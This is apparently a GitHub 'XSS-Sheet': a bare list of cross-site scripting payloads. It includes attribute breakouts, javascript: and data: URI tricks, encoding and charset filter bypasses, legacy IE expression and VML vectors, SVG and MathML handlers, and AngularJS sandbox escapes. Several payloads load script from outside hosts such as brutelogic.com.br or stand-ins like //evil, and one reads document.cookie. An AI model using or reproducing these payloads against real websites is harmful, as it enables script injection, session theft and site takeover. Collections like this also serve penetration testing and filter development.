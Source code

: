 # XSS-Sheet
alert`1`
\u{61}|\u{65}rt`1`
'-alert(1)-'
location=name
setTimeout(location)
gbk chatset:%bb\"alert(1)
`$alert(1)}`
"<!--script>"
"oncut=alert(1)
"autofocus/onfocus=alert(1)
"onerror=alert(1)//
delFeedback('&apos;)alert(1)'
<![if<iframe
-{valueOf:location,toString:[].pop,0:javascript:alert%281%29.source,length:1}
eat backlash: %bb"alert(1) (GBK charset)
prerequisite: \" => \\\"
"<!--<script>"
<img src="--></script><svg/onload=alert(1)//">
<img src="--></script><svg/onload=alert(1)//"><!--<script>
//[10,13,8232(utf-8),8233(utf-8)]alert(1)//
*/alert(1)/*
/*@cc_on-alert(1))
//@cc_on-alert(1))
"autofocus/onfocus=alert(1)
"oncut=alert(1)
onclick=alert(1)
onclick="delFeedback('2&apos)alert(1)//')"
onclick='addUser("23&quot)alert(1)//")'
onclick='addUser("23&#000000000034)-alert(1)//")'
<a language=vbs onclick='addUser(\"11\\\"&alert(1)\\\"\")'>add</a>
javascript:alert%281%29
javascript:%E2%80%A8alert`1`
javascript&colon;alert(1)
&newLine;javascript:alert(1)
javascript:alert&lpar;1&rpar;
java&#0000000000000000115;cript:name
java&#x000000000000000073;cript:name
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
data:text/html,< sc r i p t >alert(1)</sc r ip t>
data:text/html,<script>alert(1)</script>
data:),<script>alert(1)</script>
data:text/html;charset=utf-8,<h1>abc
data&colon;%2f%2f;ba se64;;//,P HNjcmlw dD5hbG VydC gxKTwvc2NyaXB0Pg= =
vbscript:Msgbox+1
<a style="behavior:url(#default#AnchorClick);" folder="javascript:alert(1)">click</a>
<input style="behavior: url(xss.txt)">
<scriptlet> <implements type="behavior"/><script>alert(1)</script></scriptlet>
1<a href=#><line xmlns=urn:schemas-microsoft-com:vml style=behavior:url(#default#vml);position:absolute href=javascript:alert(1) strokecolor=white strokeweight=1000px from=0 to=1000 /></a>
1<vmlframe xmlns=urn:schemas-microsoft-com:vml style=behavior:url(#default#vml);position:absolute;width:100%;height:100% src=test.vml#xss></vmlframe>
vml.xml:<xml><rect style="height:100%;width:100%" id="xss" onmouseover="alert(1)" strokecolor="white" strokeweight="2000px" filled="false"/></xml>
font-family:a/**/ression(alert(1))('\')exp\')
font-family:expression(alert)(1)
expr\65ssion(alert(1))
{tag}<img name="{/tag} <img src=xx:x onerror=alert({{i}})//">
<xmp><%</xmp><img alt='%></xmp><img src=xx:x onerror=alert(1)//'>
<svg[9,10,12,13,32,47]onload=alert(1)>
<img src=x[9,10,12,13,32]onerror="alert(1)">
<! XSS="><img src=xx:x onerror=alert(1)//">
alt=``onload=alert(1)
alt='"name='onerror=alert()//'
href=[0x0b]" onclick=alert(1)//
<x '="foo"><x foo='><img src=x onerror=alert(1)//'>
<input value="<script>alert(1)</script>" `/>
<object data=//pkav/test.swf><param name=movie value=//pkav/test.swf><param name=allowscriptaccess value=always></object>
<svg><script/xlink:href=data:,alert(1)></script>
<svg contentScriptType=text/vbs><script>MsgBox"1"<i>
<svg><script>alert&lpar;1&rpar;</script>
<svg></y="><x" onload=alert(1)>
<svg><style>*{font-family:'<svg onload=alert(1)>';}</style></svg>
<math xlink:href=javascript:..>
<math><a xlink:href=javascript:...>
<math><style>*{font-family:'<img/src=xx:x onerror=alert(1)>'}</style>
<math><style>*{font-family:'<img/src=xx:x onerror=alert(1)>'}</style>
<link rel=import href=//evil>
<link rel=stylesheet href=data:,*%7bx:expression(write(1))%7d>
<iframe srcdoc='&lt;svg/onload=alert(1)&gt;'>
<iframe srcdoc=\"&lt;iframe srcdoc='&amp;lt;iframe onload=alert(1)&amp;gt;'&gt;\"></iframe>
<iframe src=\"data:),<script>alert(document.domain)</script>"></iframe>
<embed src=evil.swf allowscriptaccess=always>
<embed code=evil.swf allowscriptaccess=always>
<base href="/\evil">
<!--><svg onload=alert(1)> -->
<!'="foo"><x foo='><img src=x onerror=alert(2)//'>
<![if<iframe/onload=alert(1)//]>
<![CDATA":
<!doctype":
<% contenteditable onresize=alert(1)>
<?'="foo"><x foo='><img src=x onerror=alert(2)//'>
<[00]script>alert(1)</[00]script>
UTF-7: +ADw-script+AD4-alert(document.cookie)+ADw-/script+AD4-
window.name
<b><noscript><a src='x' style='x:\3c\2fnoscript\3e\3ciframe/onload\3d alert(1)\3e'>
<listing>&lt;img src=1 onerror=alert(1) &gt;</listing>
<img src="test.jpg" alt ="``onload=xss()">
<pkav xmlns="><iframe onload=alert(1)">123</pkav>
<p style="font-family:'ar\27 \3bx\3a expression\28xss\28\29\29\3bial';"></p>
<img src=1 style="font-fam\22onerror\3d alert\28 1\29\20 ily:'aaa';\">
<% a=%&gt&lt;iframe/onload=alert(1)//>
<img ="><script>alert(1)</script>">
<div='x=&quot;&#39&gt;&lt;iframe/onload=alert(1)&gt;'>
<a href="&#x3000;javascript:alert(1)">click</a>
.attr
.data
.ajax
React.createElement
<b class="ng-include:'//evil''">
<iframe ng-src=javascript:..>
arg 1：alert(1)
\"))}catch(e){alert(1)}//
?q=%ED%A0%80\"))}catch(e){alert(1)}//
var q:String=loaderInfo.parameters["q"].split("\\").join("\\\\");
ExternalInterface.call("console.log",q);
<img src=evil.swf>
<a href=javascript:...>me</a>
style=xss:'"/onclick=alert(1)//'
style=\"xss:'" onclick="alert(1)//'"
<embed allowscriptaccess="alwalwaysays" src="test.swf">
<sc<script>ript>alert(1)</script>
alt=""onclick="alert(1)"
alt= onclick=alert(1)
<img src="xx# onerror=alert(1)//{0xf09d8c86}">
<a href="xxx# onclick=alert(1)//[64kb]"></a>
<a href="xxx# onclick=alert(1)//[255]"></a>
<iframe src="jar://html5sec.org/test.jar!/test.html"></iframe>
<iframe src="javascript:'<script src=//pkav></script>'">
<meta name=referrer content=never>
<a href=//target rel=noreferer target=pkav>click</a>
<svg/onload=eval(name)>
<i/onclick=URL=name>
script/src=//⒕₨
<script>/*
 */alert(1)/*
*/</script>
<link rel=import href=/upload/.....>
<script src=/upload/...></script>
-<script/defer>alert(1)</script>
<iframe/src=about:blank onload=alert(1)>
document.domain='qq.com'
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
<script src="data:,alert(1)%250A-->
<script>alert(1)</script
<script>alert(1)%0d%0a-->%09</script
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(1)//>\x3e
<script>location.href;'javascript:alert%281%29'</script>
\');confirm(1);//
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
<meter onmouseover="alert(1)"
'">><div><meter onmouseover="alert(1)"</div>"
>><marquee loop=1 width=0 onfinish=alert(1)>
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';
<img/src=q onerror='new Function`al\ert\`1\``'>
†‡•＜img src=a onerror=javascript:alert('test')>…‰€
{{constructor.constructor('alert(1)')()}}
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf; 
    $eval('x=alert(1)//'); 
}}
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join; 

  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join; 
    $eval('x=alert(1)//'); 
}}
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
<svg onload=alert(1)>
"><svg onload=alert(1)>
</tag><svg onload=alert(1)>
"></tag><svg onload=alert(1)>
"onmouseover=alert(1)//
"autofocus/onfocus=alert(1)//
javascript:alert(1)
data:text/html,<svg onload=alert(1)>
'-alert(1)-'
'-alert(1)//
\'-alert(1)//
'}alert(1);{'
'}alert(1)%0A{'
\'}alert(1);{//
</script><svg onload=alert(1)>
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1='
*/alert(1)</script><script>/*
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='
p=<svg/1='&q='onload=alert(1)>
p=<svg 1='&q='onload='/*&r=*/alert(1)'>
<img src=1 onerror=alert(1)>
<iframe src=javascript:alert(1)>
data:text/html,<img src=1 onerror=alert(1)>
data:text/html,<iframe src=javascript:alert(1)>
<script src=data:,alert(1)>
<script src=//brutelogic.com.br/1.js>
<Svg OnLoad=alert(1)>
<Script>alert(1)</Script>
<svg onload=alert(1)//
<svg onload="alert(1)"
<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>
<SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>
<script/x>alert(1)</script>
%253Csvg%2520o%256Enoad%253Dalert%25281%2529%253E
%2522%253E%253Csvg%2520o%256Enoad%253Dalert%25281%2529%253E
setInterval`alert\x28document.domain\x29`
setTimeout`alert\x28document.domain\x29`
<svg onload=alert&lpar;1&rpar;>
<svg onload=alert&#40;1&#41>
[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162']
('\141\154\145\162\164\50\61\51')()
"o<x>nmouseover=alert<x>(1)//
"autof<x>ocus o<x>nfocus=alert<x>(1)//
&lt;svg/onload&equals;alert(1)&gt;
<script src=https://www.google.com/complete/search?client=chrome
%26jsonp=alert(1);></script>
<script src=https://ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js>
</script><x ng-app ng-csp>{{constructor.constructor('alert(1)')()}}
'"</Script><Html /Onmouseover=(alert)(1) //
<img
src=data:image/gif;base64,R0lGODlhAQABAAD/ACwAAAAAAQABAAACADs=
onload=alert(1)>
<marquee onstart=alert(1)>
<marquee loop=1 width=0 onfinish=alert(1)>
<audio src onloadstart=alert(1)>
<video onloadstart=alert(1)><source>
<input autofocus onblur=alert(1)>
<keygen autofocus onfocus=alert(1)>
<form onsubmit=alert(1)><input type=submit>
<select onchange=alert(1)><option>1<option>2
<menu id=x contextmenu=x onshow=alert(1)>right click me!

